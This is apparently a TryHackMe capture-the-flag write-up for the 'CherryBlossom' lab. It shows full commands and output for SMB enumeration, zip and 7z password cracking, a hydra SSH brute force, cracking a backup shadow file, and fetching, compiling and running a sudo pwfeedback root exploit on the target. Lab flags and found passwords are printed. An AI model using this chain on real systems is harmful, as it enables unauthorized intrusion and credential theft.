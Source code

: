 ```yaml
---
title: TryHackMe - CherryBlossom Writeup
description: My writeup on CherryBlossom box.
categories:
 - tryhackme
tags: tryhackme
---
```


Hi all, i have to admit this machine broke my nerves haha, wasnt too hard just too many steps anyway let's pwn it!

You can find the machine there > [CherryBlossom](https://tryhackme.com/room/cherryblossom){:target="_blank"}

As always let's start with a nmap scan.

```bash
$ ip=10.10.37.166
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-14 13:40 EEST
Nmap scan report for 10.10.37.166 (10.10.37.166)
Host is up (0.099s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:ee:30:4f:f8:f7:9f:32:6e:42:95:f2:1a:1a:04:d3 (RSA)
|   256 dc:fc:de:d6:ec:43:61:00:54:9b:7c:40:1e:8f:52:c4 (ECDSA)
|_  256 12:81:25:6e:08:64:f6:ef:f5:0c:58:71:18:38:a5:c6 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

No `http` weird, of course will start by enumerating SMB service. I always start with checking the shares with `smbmap`.

```bash
$ smbmap -H $ip
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.37.166...
[+] IP: 10.10.37.166:445	Name: 10.10.37.166                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	Anonymous                                         	READ ONLY
	IPC$                                              	NO ACCESS
```

We have `READ ONLY` access to `Anonymous` share bingo! 

I always use `smbclient` to access the shares.

```bash
$ smbclient //$ip/Anonymous
Unable to initialize messaging context
Enter WORKGROUP\atom's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Perfect, there is a file there, let's download it.

```bash
smb: \> ls
  .                                   D        0  Mon Feb 10 02:22:51 2020
  ..                                  D        0  Sun Feb  9 19:48:18 2020
  journal.txt                         N  3470998  Mon Feb 10 02:20:53 2020

		10253588 blocks of size 1024. 4680584 blocks available
smb: \> get journal.txt
getting file \journal.txt of size 3470998 as journal.txt (505.4 KiloBytes/sec) (average 505.4 KiloBytes/sec)
smb: \> 
```

File has `base64` in let's decode it.

```bash
$ file journal.txt 
journal.txt: ASCII text
$ base64 -d journal.txt > journal_clear.txt
$ file journal_clear.txt 
journal_clear.txt: PNG image data, 1280 x 853, 8-bit/color RGB, non-interlaced
```

Hmm a `.png` image, probably needs stego because `Question Hint` on TryHackMe gives us a stego toolkit.

After some tries i found the right tool > [stegpy](https://github.com/dhsdshdhk/stegpy){:target="_blank"}

```bash
$ stegpy journal_clear.txt 
File _journal.zip succesfully extracted from journal_clear.txt
$ file _journal.zip 
_journal.zip: JPEG image data
```

`.zip` `.jpeg` !? probably file is broken we need to fix that.

Let's check the magic bytes first.

```bash
$ xxd -p _journal.zip | head -1
ffd8ffd814000900080035004a50847d980b3d130100221301000b001c00
```

Magic bytes for `jpeg` -> `FF D8 FF E0 00 10 4A 46 49 46 00 01`

Let's edit this and add `zip` ones -> `50 4B 03 04`

I always use `hexedit` for that. After fix :

```bash
$ xxd -p _journal.zip | head -1
504b030414000900080035004a50847d980b3d130100221301000b001c00
$ file _journal.zip 
_journal.zip: Zip archive data, at least v2.0 to extract
```

But `zip` is password protected!

```bash
$ unzip _journal.zip 
Archive:  _journal.zip
[_journal.zip] Journal.ctz password: 
```

Let's crack it with `fcrackzip`.

```bash
$ fcrackzip -u -D -p rockyou.txt _journal.zip 
PASSWORD FOUND!!!!: pw == september
$ unzip -P september _journal.zip 
Archive:  _journal.zip
  inflating: Journal.ctz             
$ file Journal.ctz 
Journal.ctz: 7-zip archive data, version 0.4
```

So `.ctz` is a cherrytree file! Let's crack it, i'll use my old friend john! :P

```bash
$ locate 7z2john
/usr/share/john/7z2john.pl
$ sudo /usr/share/john/7z2john.pl Journal.ctz > ctzhash
$ sudo john --wordlist=rockyou.txt ctzhash
Press 'q' or Ctrl-C to abort, almost any other key for status
tigerlily        (Journal.ctz)
Session completed
```

Let's open it with cherrytree now.

![](https://i.imgur.com/b59wTTj.png)

![](https://i.imgur.com/KgcUsxn.png)

Let's download this wordlist!

Also we can see a username there!

![](https://i.imgur.com/Fp1VBi9.png)

We can use this combo now for a brute force attack on `SSH`!

```bash
$ hydra -l lily -P wordlist.txt $ip ssh
[22][ssh] host: 10.10.143.72   login: lily   password: Mr.$un$hin3
```

```bash
$ ssh lily@$ip
lily@10.10.143.72's password: 

	#####################################
	##########  Welcome, Lily  ##########
        #####################################

lily@cherryblossom:~$ whoami
lily
```

Finally shell! :D

After some manual enumeration, i found under `/var/backups` a readable `shadow.bak` file, let's try to crack `johan` password!

```bash
$ sudo john --wordlist=wordlist.txt johanhash
Press 'q' or Ctrl-C to abort, almost any other key for status
##scuffleboo##   (johan)
```

```bash
$ su - johan
Password: 
johan@cherryblossom:~$ whoami
johan
```

I did lot of enumeration but i found nothing, so i fired up [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"}!

```bash
johan@cherryblossom:~$ bash linux-exploit-suggester.sh 
Possible Exploits:

[+] [CVE-2019-7304] dirty_sock

   Details: https://initblog.com/2019/dirty-sock/
   Exposure: less probable
   Tags: ubuntu=18.10,mint=19
   Download URL: https://github.com/initstring/dirty_sock/archive/master.zip
   Comments: Distros use own versioning scheme. Manual verification needed.

[+] [CVE-2019-18634] sudo pwfeedback <---
```

`sudo pwfeedback` seems good, let's give it a go!

First let's download the exploit on our machine and compile it!

```bash
$ wget -q https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
$ gcc exploit.c -o exploit
$ sudo python3 -m http.server 80
```

Now let's download it on target box and execute it!

```bash
johan@cherryblossom:~$ wget -q my_tun0_ip/exploit
johan@cherryblossom:~$ chmod +x exploit
johan@cherryblossom:~$ ./exploit 
[sudo] password for johan: 
Sorry, try again.
# whoami
root
# 
```

Bingoo! Let's grab the flags.

```bash
# cat /root/root.txt && cat /home/johan/user.txt
THM{d4b5e228a567288d12e301f2f0bf5be0}
THM{cb064113d54e24dc84f26b1f63bf3098}
```

Was fun, see you!
